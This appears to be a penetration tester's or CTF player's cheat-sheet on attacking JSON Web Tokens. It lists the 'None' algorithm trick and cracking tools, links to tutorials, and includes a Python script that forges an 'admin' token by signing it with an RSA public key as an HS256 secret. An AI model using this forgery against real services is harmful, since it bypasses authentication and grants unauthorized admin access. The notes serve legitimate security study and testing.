 # Json Web Token (JWT)

# Quick notes

- Try 'None' alg
- jwt-cracker
- jwt_tool
    - [https://pentestbook.six2dez.com/enumeration/webservices/jwt](https://pentestbook.six2dez.com/enumeration/webservices/jwt)
    - [https://github.com/ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

# python script to create jwt

```
import base64

import json

import jwt

public_key = "-----BEGIN PUBLIC KEY-----\\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiDAf9SLppwz8WosnOowl\\nCHIYsZuXUs9NxgAP+uhEnHau9aQJofG6jNTdAuMzzxGpV+qPWXUQg0h2S44sKcNn\\nql1qUAk+LMOpeBfkKI0sYX8zg9E/RhK2RsDExZPzLOPkEFXW/3rI5T4i9aG2GGGe\\nJwdnlPbfFZk6i1axY4g+iK12yWrSv+S4SQfrWhguDKlJamMM4F3SSVfrvpgQLsad\\ni6bIYp8Aqv82ddHpPdszf4ecHyUXYJynNm+wVb2FfB3VpG7kZo+xA7nyZDgfEqDD\\n2VVwGICVL6js7QFMNWNRw2pO4pAjKBCZCvRDvYi5RJn/7WhD2GXQ18DkXRNgR/i6\\nvwIDAQAB\\n-----END PUBLIC KEY-----"

payload = {"username": "admin", "pk": public_key}

enc = jwt.encode(payload, public_key, algorithm="HS256")

print(enc)

```

# Links

- [https://ironhackers.es/en/tutoriales/atacando-json-web-token-jwt/](https://ironhackers.es/en/tutoriales/atacando-json-web-token-jwt/)
- [https://rizemon.github.io/posts/htbcybersanta-ctf/#naughty-or-nice-day-5](https://rizemon.github.io/posts/htbcybersanta-ctf/#naughty-or-nice-day-5)